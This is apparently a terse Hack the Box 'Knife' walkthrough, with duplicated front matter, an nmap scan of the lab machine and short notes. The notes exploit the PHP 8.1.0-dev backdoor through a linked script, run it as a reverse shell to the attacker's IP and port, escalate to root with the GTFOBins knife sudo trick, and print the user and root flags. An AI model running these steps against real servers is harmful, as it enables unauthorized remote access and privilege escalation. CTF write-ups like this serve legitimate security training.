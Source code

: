 ```yaml
---
title: Knife - Hack the Box
date: 2024-10-13 12:29:12 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Knife.png
---
```

---
title: Knife - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Knife.png
---
---
title: 2024-10-12-Knife - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Knife.png
---
### Scan
```
└─# nmap -sVC -p- --open 10.10.10.242
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-09 06:50 EDT
Nmap scan report for 10.10.10.242
Host is up (0.13s latency).
Not shown: 65027 closed tcp ports (reset), 506 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.35 seconds
```
### Enum
Nothing gives. Wappalyzer to rescue. PHP 8.1.0-dev with RCE
Searchplsoit out the box works
backdoor
sudo -l funnels us to knife
GTFOBINS ftw to upgrade.
Doesnt work. got better script from git after trying manually https://github.com/flast101/php-8.1.0-dev-backdoor-rce
`python3 revshell_php_8.1.0-dev.py http://knife.htb 10.10.14.11 9999`
revshell now instead of backdoor. try gtfo https://gtfobins.github.io/gtfobins/knife/
boom
USER:a0cfa4a8c7b226a6cc2424b0bdb4b6ee
ROOt:7e22633bd6cf3cdbe94295e26a2a8874
